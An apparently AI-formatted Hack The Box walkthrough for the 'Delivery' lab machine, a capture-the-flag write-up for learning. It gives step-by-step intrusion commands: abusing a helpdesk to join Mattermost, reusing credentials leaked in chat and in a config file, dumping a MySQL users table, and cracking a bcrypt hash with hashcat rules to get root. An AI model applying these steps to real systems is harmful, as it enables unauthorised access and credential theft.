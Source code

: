 # HTB: Delivery — Walkthrough

## 📂 Box Info
- **Name:** Delivery
- **IP:** 10.10.10.222
- **OS:** Linux
- **Difficulty:** Easy

---

## 🔎 Recon
```bash
nmap -sV -p- -T4 -oA nmap/delivery-all 10.10.10.222
```
- Open ports: 22 (SSH), 80 (HTTP), 8065 (unknown service initially)
- `/etc/hosts` additions:
  ```
  10.10.10.222 delivery.htb helpdesk.delivery.htb
  ```

---

## 🏠 Web Enumeration
- **[Port 80](HTTP):** Static homepage
- **Subdomain found:** helpdesk.delivery.htb
- **Port 8065:** Mattermost interface at `http://delivery.htb:8065/`

### Helpdesk Ticket System
- Created new ticket on `helpdesk.delivery.htb`
  - Email: `test1@delivery.htb`
  - Ticket ID: `4076334`
- Used this info to access Mattermost:
  - Signup using `4076334@delivery.htb`
  - Got email verification link via helpdesk panel

---

## 🔑 Credentials & User Shell
- From Mattermost `town-square` channel:
  ```
  maildeliverer : Youve_G0t_Mail!
  ```
- SSH as maildeliverer:
  ```bash
  ssh maildeliverer@10.10.10.222
  # Password: Youve_G0t_Mail!
  ```
- Captured user flag from `~/user.txt`

---

## ⬆️ Privilege Escalation
### Step 1: Find Credentials
- File: `/opt/mattermost/config/config.json`
```json
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost",
```
- Credentials: `mmuser : Crack_The_MM_Admin_PW`

### Step 2: Dump Users Table
```bash
mysql -h 127.0.0.1 -u mmuser -p
# Password: Crack_The_MM_Admin_PW
MariaDB> use mattermost;
MariaDB> SELECT Username,Password FROM Users;
```
- Found bcrypt hash for `root`

### Step 3: Crack Bcrypt Hash
- Hint from Mattermost: `PleaseSubscribe!` related password
- Custom wordlist generation:
```bash
echo 'PleaseSubscribe!' > pass.lst
hashcat --stdout pass.lst -r /usr/share/hashcat/rules/best64.rule > custom.lst
```
- Crack hash:
```bash
hashcat -m 3200 -a 0 -o cracked.txt <HASH> custom.lst
```
- Cracked password: `PleaseSubscribe!21`

### Step 4: Root Access
```bash
su root
# Password: PleaseSubscribe!21
```
- Captured root flag from `~/root.txt`

---

## 📄 Summary
- Enumerated support ticket system to gain Mattermost access
- Extracted SSH credentials from chat
- Used MySQL access to retrieve root hash
- Cracked bcrypt hash using rules
- Escalated to root and captured all flags

---

Let me know if you'd like this exported as PDF or visualized as a flow diagram! 🔐

